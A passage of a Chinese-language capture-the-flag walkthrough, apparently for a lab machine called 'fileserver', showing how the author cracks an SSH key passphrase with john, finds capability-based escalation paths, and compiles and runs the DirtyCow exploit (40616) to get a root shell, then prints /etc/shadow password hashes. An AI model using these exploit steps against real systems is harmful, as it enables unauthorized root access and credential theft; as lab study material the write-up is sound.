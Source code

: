 这里提示已经将 find 删除，提示使用 getcap & capsh

得到了 id_rsa，尝试用此密钥去登陆 ssh，使用前面发现的 2 个用户 smbuser bla , 发现私钥需要密码，使用 john 进行爆破，得到私钥的密码: password。

重新登陆，可以登陆进 samuser 用户。

根据 note.txt 提示，尝试使用 getcap 发现了可提权程序：

```
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
```

家目录中有一个 suid 程序 : runme 使用 strings 进行查看：

```
/lib64/ld-linux-x86-64.so.2
libc.so.6
puts
setreuid
stdin
fgets
system
geteuid
__libc_start_main
__gmon_start__
GLIBC_2.2.5
UH-X
UH-X
[]A\A]A^A_
/bin/sh
/bin/cat /home/bla/user.txt
Why are you here ?!
;*3$"
```

内核版本 3.10.0-229.el7 Red Hat 4.8.2-16 大概率存在内核提权,经过几个 exp 的测试，最终发现 40616 可以提权：

```
gcc 40616.c -o 40616 -lpthread

./40616
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 27832
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd is overwritten
Popping root shell.
Don't forget to restore /tmp/bak
[root@fileserver tmp]# id
uid=0(root) gid=1000(smbuser) groups=0(root),1000(smbuser)
```

/etc/shadow 有读取权限：

```
root:$6$zWU8uYN5$iHT030gilg9kM1iYCZt/z3q4fWpSNHwwLElFWof/C3MfbqgmbWAnG5sXFEdkMj60MLvYc6HEB7/REq2u2aVVh0:18317:0:99999:7:::
smbuser:$6$ePvCCtcG$mAQFQldd7/k25o51NK2gkccL24r7DzhrqZGTyjoLlhOCKb060BuB/X6Qlc7noUv61K9NXtaPeWnYRlLWigBfF1:18317:0:99999:7:::
bla:$6$ENV.HdIK$huk85ZxIDwa7jK8W1i0cfV/s67QDyYFaEHVrrpKjYesEJXAiaTo4jtNvfmKD4y1ULhub6gahOVIBaXxcpgm0n.:18317:0:99999:7:::
```
